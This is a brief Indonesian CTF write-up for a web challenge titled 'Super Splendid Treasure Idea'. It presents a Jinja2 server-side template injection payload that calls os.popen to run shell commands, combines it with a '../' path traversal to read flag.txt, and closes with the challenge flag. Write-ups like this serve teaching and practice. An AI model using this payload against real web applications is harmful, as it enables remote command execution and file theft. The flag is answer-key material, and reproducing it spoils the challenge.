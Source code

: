 ## Super Splendid Treasure Idea

## Deskripsi

Rasanya tadi aku lihat flagnya di sini, tapi sekarang... hilang entah ke mana 😭. Apa ada yang mindahkannya? Mungkin aku harus mencoba menelusuri lebih dalam di website ini dan melihat apakah aku bisa menemukannya kembali.

Mungkin saja ada di balik beberapa file yang tersembunyi 🕵️‍♂️

Author: **anakmamah**

## HINT
- Sepertinya judulnya menarik 🤔
- Deskripsinya juga menarik nih

## POC
- Masukin payload SSTI buat baca file atau os command
  {{"".join(cycler.__init__.__globals__.os.popen('cat flag.txt'))}}
- Lakuin sedikit LFI buat nemuin lokasi flagnya, yaitu ../../../../../../flag.txt
- Final payload -> {{"".join(cycler.__init__.__globals__.os.popen('cat ../../../../../../flag.txt')) }}

## Flag
CODEX2K24{H0H0H0_SSTI_w1th_s0me_LFI_ch4llenge_pr3tty_e4sy_r1ght}
